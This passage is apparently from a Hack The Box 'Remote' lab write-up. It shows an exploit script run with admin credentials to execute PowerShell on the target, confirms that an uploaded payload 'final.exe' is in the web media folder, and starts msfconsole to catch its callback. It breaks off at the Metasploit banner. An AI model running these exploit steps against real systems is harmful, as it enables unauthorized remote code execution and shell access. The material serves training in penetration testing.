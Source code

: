 ![](/images/HTB_Remote/HTB_Remote_6.png)

Note: ***/media/1033/***

We can confirm this using the exploit we previously used:

{% highlight bash %}
kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "dir c:/inetpub/wwwroot/media/1033"


    Directory: C:\inetpub\wwwroot\media\1033


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        8/27/2020   3:58 AM          73802 final.exe
{% endhighlight %}

Next, in a new console window, we fire up msfconsole and set it to listen for the connection from that exe we just uploaded.

{% highlight bash %}
kali@kali:~$ msfconsole

  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |